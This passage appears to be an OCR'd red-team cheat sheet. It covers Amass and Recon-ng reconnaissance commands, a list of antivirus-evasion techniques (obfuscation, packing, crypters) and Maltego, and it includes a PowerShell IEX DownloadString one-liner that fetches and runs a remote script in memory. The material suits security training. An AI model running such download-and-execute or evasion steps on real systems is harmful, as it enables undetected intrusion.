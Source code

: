 bash

    amass db -dir /path/to/results/ -d3

    Queries the Amass database for detailed information.

3. Recon-ng

    Introduction: Recon-ng is a full-featured web reconnaissance framework with independent modules, database interaction, built-in convenience functions, and interactive help.
    Command Examples:

    bash

    recon-ng
    marketplace search whois
    marketplace install <module>
    modules load <module>
    options set SOURCE hacker.com
    run

    This workflow shows how to set up and run a module in Recon-ng for domain enumeration.

Red Team Defense Evasion

1. Antivirus Evasion

    Introduction: Antivirus software uses various methods like signature detection, heuristics, and behavioral analysis to detect and block malware. Red Teams must learn to evade these mechanisms.
    Evasion Techniques:
        Obfuscation: Hides the true intent of malicious code.
        Encoding: Converts code into a different format to evade detection.
        Packing: Compresses or encrypts the executable.
        Crypters: Encrypts the payload or the entire executable to bypass antivirus detection.

2. In-Memory Evasion

    Introduction: In-memory evasion techniques are becoming more prevalent, as they avoid writing to disk, reducing the likelihood of detection by traditional antivirus solutions.
    Tools: PowerShell scripts like Invoke-Obfuscation can be used to obfuscate scripts in memory.
    Command Example:

    bash

    sudo apt install powershell
    pwsh -c 'IEX (New-Object Net.WebClient).DownloadString("https://path/to/Invoke-Obfuscation.ps1")'

    This command installs PowerShell and downloads an obfuscation script for in-memory execution.

additional tools and frameworks that can significantly enhance your OSINT and reconnaissance capabilities. These tools cover various aspects of information gathering, from social media analysis to network scanning and vulnerability assessment. Here are some more tools you might find useful:
Additional OSINT Tools

1. Maltego

    Introduction: Maltego is a powerful OSINT and graphical link analysis tool for gathering and connecting information for investigative tasks. It provides an interactive data mining platform that renders directed graphs for analyzing relationships between pieces of information.
    Usage: Maltego can be used for mapping the online presence of an individual or organization, uncovering relationships, and conducting deep network analysis.
    Website: Maltego
